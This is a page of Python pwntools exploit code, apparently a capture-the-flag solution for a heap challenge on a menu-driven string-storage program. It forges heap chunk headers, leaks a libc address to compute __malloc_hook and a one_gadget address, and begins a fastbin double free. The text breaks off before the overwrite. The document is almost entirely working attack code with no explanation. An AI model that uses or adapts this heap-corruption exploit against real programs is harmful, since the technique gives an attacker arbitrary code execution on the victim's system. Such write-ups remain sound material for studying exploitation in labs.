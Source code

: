     def lg(s,addr):
    	print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
    
    def sa(a,b):
    	p.sendafter(a,b)
    
    def sla(a,b):
    	p.sendlineafter(a,b)
    	
    def new_string(size,content):
    	sla('choice: ','1')
    	sla('length: ',str(size))
    	sla('content: ',content)
    
    def edit_string(index,byte_i):
    	sla('choice: ','3')
    	sla('the index: ',str(index))
    	sla('byte index: ',str(byte_i))
    
    def delete_string(index):
    	sla('choice: ','4')
    	sla('index: ',str(index))
    
    def hack():
    	raw_input()
    	new_string(0x80,'A')	#0
    	new_string(0x80,'A')	#1
    	new_string(0x68,'A')	#2
    	new_string(0x68,'A')	#3
    	new_string(0x20,'A')	#4
    
    	delete_string(0)
    	delete_string(1)
    
    	payload = (p64(0) + p64(0x91)) * 9
    	new_string(0x90,payload)	#5
    	new_string(0x70,'A')	#6
    
    	delete_string(1)
    
    	edit_string(5,0x88)
    	edit_string(5,0x88)
    
    	new_string(0x80,'AAAAAAA')	#7
    	ru('string: AAAAAAA\x0a')
    	top_addr = u64(rv(6).ljust(8,'\x00'))
    	lg('top_addr',top_addr)
    	libc.address = top_addr - 0x58 - 0x3C4B20
    	lg('libc.address',libc.address)
    	malloc_hook_ptr = libc.symbols['__malloc_hook']
    	lg('malloc_hook_ptr',malloc_hook_ptr)
    	one_gadget = libc.address + 0xf02a4
    	lg('one_gadget',one_gadget)
    	
    	delete_string(2)
    	delete_string(3)
    	delete_string(2)
    